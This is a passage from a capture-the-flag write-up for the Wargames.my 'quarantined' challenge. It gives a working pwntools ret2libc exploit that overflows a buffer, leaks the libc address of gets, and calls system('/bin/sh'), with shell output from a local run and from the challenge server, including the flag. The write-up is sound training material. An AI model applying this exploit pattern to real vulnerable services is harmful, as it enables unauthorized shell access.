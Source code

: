 So we leaked the correct address of `gets` !

Now we can start calculate the offset and execute `system` with `/bin/sh`

```py
from pwn import *
elf = ELF("./quarantined")
# Use libc in my local machine 
libc = ELF("/usr/lib/i386-linux-gnu/libc.so.6")
p = elf.process()
vuln = 0x8048562
puts_plt = 0x80483c0
system_plt = 0x80483d0
gets_got = 0x804a010
# Calculate the offset between gets and /bin/sh
binsh_offset = libc.symbols['gets'] - next(libc.search("/bin/sh"))
# Leak gets in libc
p.sendlineafter("1+1\n",'a'*1036+p32(puts_plt)+p32(vuln)+p32(gets_got))
gets_libc = u32(p.recvuntil("\n")[:4])
# Calculate binsh address
binsh_libc = gets_libc - binsh_offset
# Execute shell!
p.sendlineafter("1+1\n",'a'*1036+p32(system_plt)+p32(vuln)+p32(binsh_libc))
# Switch to interactive mode
p.interactive()
```
```
[+] Starting local process '/root/Downloads/wgmy/quarine/quarantined': pid 73610
[*] Switching to interactive mode
$ ls
core           libc.so.6    README.md  stack-convention.png
fortnight_1005.7z  quarantined    solve.py   test.py

```
Yay!! We executed a shell!

Lets exploit with the challenge machine:
```py
from pwn import *
elf = ELF("./quarantined")
# libc = ELF("/usr/lib/i386-linux-gnu/libc.so.6")
libc = ELF("libc.so.6") # Use the libc provided
# p = elf.process()
p = remote("fortnight1005.wargames.my",46738)
...
...
...
p.interactive()
```
```
[+] Opening connection to fortnight1005.wargames.my on port 46738: Done
[*] Switching to interactive mode
$ ls
flag.txt
quarantined
$ cat flag.txt
wgmy{dud3_l375_50c14l_d1574nc1n6_f0r_l1f3}
[*] Got EOF while reading in interactive
```
Thats it! Easy challenge
